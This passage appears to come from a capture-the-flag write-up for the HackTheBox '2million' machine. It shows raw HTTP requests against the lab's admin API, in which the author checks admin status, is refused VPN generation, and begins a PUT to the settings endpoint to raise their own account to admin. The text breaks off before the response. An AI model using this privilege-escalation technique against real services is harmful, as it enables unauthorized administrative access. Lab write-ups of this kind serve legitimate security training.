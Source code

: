 
## 🚪 Entry Point

> For a user with the `admin` role there are three urls: `/api/v1/admin/auth` - check if the user is an administrator,
> `/api/v1/admin/vpn/generate` - generate a VPN file and `/api/v1/admin/settings/update` - change user settings.

> Checking if I have an administrator role

```http

GET /api/v1/admin/auth HTTP/1.1

```
> Response
```http

{"message":false}

```

> Well obviously not :)

> And accordingly I also don’t have the rights to generate a VPN file for myself as an administrator:

> Request:

```http

POST /api/v1/admin/vpn/generate HTTP/1.1

```

> Response

```http

HTTP/1.1 401 Unauthorized

```

> Ok. I'm trying to upgrade myself to the `admin` role.

> url `/api/v1/admin/settings/update` allows me to change the settings for my account:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
> Response:
